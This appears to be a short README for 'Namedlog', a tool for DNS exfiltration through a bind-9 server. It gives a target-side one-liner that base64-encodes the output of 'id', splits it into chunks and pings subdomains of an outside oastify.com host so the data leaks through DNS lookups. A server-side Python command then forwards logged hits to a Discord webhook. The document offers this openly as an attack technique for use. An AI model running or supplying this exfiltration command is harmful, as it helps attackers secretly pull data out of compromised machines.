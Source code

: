 # Namedlog
This tools is useful for DNS exfiltration via bind-9.


# Notes
Replace 'WEBHOOK_URL' with your Discord webhook URL
WEBHOOK_URL = ''

# Command

- Target Side: (keyword is __mysign__)
```bash
id|base64|fold -10|while read x;do ping -c 1 $x.mysign.ywy0ex6g5mjt2jjvcnvpqrx20t6ku9.oastify.com ;done

```

- Server Side:

You can send the keyword to your discord if it logged on `/var/log/named/named.log`:

```bash
python namedlog.py mysign
```


